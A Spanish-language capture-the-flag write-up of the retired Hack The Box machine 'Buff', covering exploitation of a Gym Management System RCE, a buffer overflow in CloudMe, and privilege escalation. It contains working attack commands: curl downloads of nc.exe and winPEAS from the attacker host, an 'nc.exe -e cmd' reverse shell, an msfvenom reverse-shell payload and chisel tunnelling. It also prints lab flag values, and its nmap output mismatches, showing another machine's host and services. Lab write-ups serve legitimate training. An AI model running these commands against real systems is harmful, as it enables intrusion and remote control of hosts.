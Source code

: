 ```yaml
---
layout: post
title:  "Maquina  Retirada Buff de Hack The Box (Necesario VIP)"
description: En esta ocasion empezaremos con el Writeup de la maquina de HackTheBox llamada BUFF
tags: HTB, Bypass, BruteForce, Web Hacking, Maquinas Retiradas, Writeup
---
```


# BUFF ~ Hack The Box

Machine IP 10.10.10.198

Procedemos a realizar los escaneos con `nmap` que hacemos siempre:
```bash
# cat target                                                                 
# Nmap 7.91 scan initiated Mon Sep  6 20:32:33 2021 as: nmap -sC -sV -p22,80 -oN target 10.10.11.105
Nmap scan report for 10.10.11.105
Host is up (0.046s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
|_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Hechando un Ojo a la web, conseguimos ver el CMS que utiliza:
```bash
Made using Gym Management Software 1.0
```
Buscamos en Searchsploit 
```bash
# searchsploit Gym Management                               
---------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                    |  Path
---------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Gym Management System 1.0 - 'id' SQL Injection                                                                                    | php/webapps/48936.txt
Gym Management System 1.0 - Authentication Bypass                                                                                 | php/webapps/48940.txt
Gym Management System 1.0 - Stored Cross Site Scripting                                                                           | php/webapps/48941.txt
Gym Management System 1.0 - Unauthenticated Remote Code Execution                                                                 | php/webapps/48506.py
```
Encontramos un exploit de RCE y probamos a utilizarlo
```bash
# python GymManagement.py                                                                                                                                     1 ⨯
            /\
/vvvvvvvvvvvv \--------------------------------------,
`^^^^^^^^^^^^ /============BOKU====================="
            \/

(+) Usage:       python GymManagement.py <WEBAPP_URL>
(+) Example:     python GymManagement.py 'https://10.0.0.3:443/gym/'
                                                                                                                                                                    
┌──(root💀pro)-[/home/…/Escritorio/HTB/Buff/exploits]
└─# python GymManagement.py http://10.10.10.198:8080/                                                                                                         255 ⨯
            /\
/vvvvvvvvvvvv \--------------------------------------,
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload> whoami
�PNG
▒
buff\shaun
```

Vemos que con esta shell no podemos movernos hacia atras en directorios etc, asique probamos a pasarnos un nc.exe para enviarnos un R-Shell potente.
```bash
C:\xampp\htdocs\gym\upload> curl http://10.10.16.4/nc.exe -o nc.exe
```
Compartimos un server python3 -m http.server 80 con el recurso de nc.exe
```bash
C:\xampp\htdocs\gym\upload> nc.exe -e cmd 10.10.16.4 443
```
Nos ponemos a la escucha:
```bash
# rlwrap nc -vlnp 443
listening on [any] 443 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.198] 49753
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\gym\upload>

Directory of C:\Users\shaun\Desktop

14/07/2020  13:27    <DIR>          .
14/07/2020  13:27    <DIR>          ..
06/09/2021  11:47                34 user.txt
               1 File(s)             34 bytes
               2 Dir(s)   7,623,385,088 bytes free

type user*
type user*

user.txt
2363dc8a282b3f13bad614f6feb3cc07
```
Procedemos a subir el winPEASx86 para enumerar el sistema:
```bash
C:\xampp\htdocs\gym\upload> curl http://10.10.16.5/winPEASx86.exe -o winPEASx86.exe
�PNG
▒

C:\xampp\htdocs\gym\upload> exit
```
# BUFFER OVERFLOW
Procedemos a hacer el Buffer OverFlow en una maquina windows 7 a nivel local con el binario de CloudMe para posteriormente repetir el proceso
en la maquina victima Buff.
```bash
Requisitos: 
- Immunity Debugger
- binario Malicioso (puerto 8888) CloudMe
- chisel (Port Forwarding) 
```

```Bash
########BOF############
```

Nos creamos con pattern_create.rb un listado de 5000mil caracteres aleatorios para introducirlos como PAYLOAD EN NUESTRO exploit.
```bash
# /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 5000 
```


Chequeamos con el Immunity Debuger el numero del EIP >>
```bash
# /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 69423569 
[*] Exact match at offset 1036
```


Para crear nuestras instruciones maliciosas a nivel local. -a (arquitectura) -b (BADChars) -e (encoded ) -f (en C )
msfvenom -p windows/shell_reverse_tcp -a x86 LHOST=192.168.233.133 LPORT=443 -b "\x00" -e x86/shikata_ga_nai -f c 



./chisel client 10.10.16.5:1233 R:8888:127.0.0.1:8888 conectamos

./chisel server --reverse --port 1233 recibimos


roo.txt
78f9007b26a3846afxxxxxxxxxxxxxxxx
